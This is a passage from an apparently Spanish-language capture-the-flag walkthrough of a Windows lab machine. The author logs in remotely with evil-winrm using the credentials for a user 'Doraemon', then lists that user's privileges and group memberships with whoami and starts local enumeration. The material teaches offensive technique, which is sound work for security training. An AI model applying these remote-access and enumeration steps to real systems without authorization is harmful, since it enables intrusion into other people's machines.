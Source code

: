 Hagámoslo con la herramienta **evil-winrm**:
```batch
evil-winrm -i 192.168.10.5 -u 'Doraemon' -p 'Dorayaki1'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Doraemon\Documents> whoami
doraemon\doraemon
```
Estamos dentro.

<br>

<h2 id="Doraemon">Enumeración de Máquina Víctima con winPEASx64.exe</h2>

Dentro de este usuario, aún no encontraremos la flag del usuario y tampoco encontraremos algo dentro de sus directorios.

Revisando sus privilegios, no tendrá alguno del que nos podamos aprovechar:
```batch
*Evil-WinRM* PS C:\Users\Doraemon\Documents> whoami /priv

INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                  Estado
============================= ============================================ ==========
SeMachineAccountPrivilege     Agregar estaciones de trabajo al dominio     Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido             Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada
```

También podemos ver a qué grupos pertenece nuestro usuario:
```batch
*Evil-WinRM* PS C:\Users\Doraemon\Documents> whoami /groups

INFORMACIàN DE GRUPO
--------------------

Nombre de grupo                                                    Tipo           SID          Atributos
================================================================== ============== ============ ========================================================================
Todos                                                              Grupo conocido S-1-1-0      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios de administraci¢n remota                          Alias          S-1-5-32-580 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                                                   Alias          S-1-5-32-545 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Acceso compatible con versiones anteriores de Windows 2000 Alias          S-1-5-32-554 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\NETWORK                                               Grupo conocido S-1-5-2      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Usuarios autentificados                               Grupo conocido S-1-5-11     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Esta compa¤¡a                                         Grupo conocido S-1-5-15     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Autenticaci¢n NTLM                                    Grupo conocido S-1-5-64-10  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
Etiqueta obligatoria\Nivel obligatorio medio alto                  Etiqueta       S-1-16-8448
```